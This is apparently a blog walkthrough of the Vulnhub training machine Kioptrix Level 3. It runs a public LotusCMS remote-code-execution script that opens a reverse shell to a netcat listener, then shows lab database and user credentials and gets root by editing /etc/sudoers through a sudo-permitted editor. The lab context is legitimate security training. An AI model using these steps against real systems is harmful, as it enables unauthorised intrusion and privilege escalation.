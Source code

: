 ```yaml
---
weigth: 1
title: "Kioptrix Level 3 Walkthrough"
date: 2023-08-14T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-08-25
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources: 
- name: "featured-image"
  src: "preimagenKioptrix3.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix Level 3

## Machine Resolution

### Scanning and Vulnerability Analysis

We start with a scan of our local network with the arp command to obtain the ip of our target machine.
```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Once the ip is obtained we proceed to perform a scan with nmap.
```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

After scanning with nmap we see that port 80 is open with an http service so let's see what it contains using our browser in this case Firefox and we see the following website.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

In the description of the machine tells us to add the domain [kioptrix3.com](http://kioptrix3.com) to our file /etc/hosts to be able to see the web so we open it and add the following:
```bash
192.168.66.161  kioptrix3.com
```

### Exploitation

After surfing the site we can see that the web is made with LotusCMS.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

So we went to Google to find out if there is any exploit for this CMS and we found the following:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

we clone it to our machine and run

```bash
./lotusRCE.sh kioptrix3.com /

#Enter our ip
192.168.66.152 
#Port
4444
#In another terminal start netcat
nc -nlvp 4444
#select option 1
1
#we have a  shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

We performed a tty treatment to work more comfortably and to be able to do Ctrl+C.
```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

After enumerating for a while we found the file gconfig.php in /home/www/kioptrix3.com/gallery which contains some credentials to the database.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

we log into mysql:
```bash
mysql -uroot -pfuckeyou
```

And we obtain the credentials of the admin user but after a few attempts it does not help us to change the user.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

We log into phpmyadmin with the credentials obtained previously.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

and locate the hashes of the machine's users
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

I have used an online website to crack these hashes by obtaining the password in clear text.

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

Once we have obtained the credentials we connect via SSH but we get an error.


![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

To solve it we write the following to connect:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Privilege Escalation

If we read the CompanyPolicy.README file it tells us that they have installed new software to edit, create and view files and to use the command "sudo ht".

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

With sudo -l we see that we have permissions to run it.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

if we execute it at first we will get an error so we have to execute the following:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

And run it:

```bash
sudo ht
```

To open a file, use the ALT+ F keys and select the open field:
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

We are going to edit the file /etc/sudoers to be able to launch a shell as root and thus escalate privileges.

To do this, type /etc/sudoers and hit enter.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

We add the following command followed by the existing commands to the user loneferret so that he can execute it with sudo.
```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Press ALT + F to save and exit.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

We get a shell as root:
```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Happy Hacking :)
